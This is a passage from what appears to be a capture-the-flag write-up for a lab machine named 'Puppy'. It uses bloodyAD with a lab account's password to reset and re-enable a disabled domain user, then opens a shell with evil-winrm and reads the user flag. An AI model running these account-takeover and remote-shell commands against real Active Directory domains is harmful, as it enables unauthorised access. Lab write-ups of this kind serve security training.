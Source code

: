 The `adam.silver` user is a member of `Remote Management Users` group, so he could `WinRM` to the machine.

![alt text](image-5.png)

Looking at the user detail, this user isn't enabled. So to compromise it, we need to change the password and enable it.

```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!'  set password adam.silver Password123!
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
```

# Shell as adam.silver

## User flag

Get a shell using `evil-winrm` and grab the user flag at `C:\Users\adam.silver\Desktop\user.txt`.

```bash
> evil-winrm -i 10.10.11.70 -u adam.silver -p Password123!
*Evil-WinRM* PS C:\Users\adam.silver\Documents> cat ../Desktop/user.txt
deadbeefd64a9ce01e5f9ff1f5e4fake
```
